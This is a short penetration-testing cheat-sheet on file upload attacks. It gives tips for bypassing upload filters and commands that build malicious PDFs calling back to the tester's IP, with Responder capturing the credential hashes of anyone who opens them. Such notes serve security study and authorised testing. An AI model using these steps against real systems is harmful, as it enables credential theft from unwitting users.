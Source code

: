 # File Upload

Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)

**Notes:**

- Attempt changing capitalization first if attempting to bypass filters (as opposed to extension change)
- Check under different ports if multiple web pages are available and unable to find where the file has been uploaded to

### PDF Uploads

Utilizing [malicious-pdf](https://github.com/jonaslejon/malicious-pdf)

```powershell
python3 malicious-pdf.py $OUR_IP
sudo responder -I tun0 -A -v
# Upload PDFs
```

Utilizing [Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

```powershell
badpdf.py
# Enter our ip
sudo responder -I tun0 -A -v
# Upload pdf
```
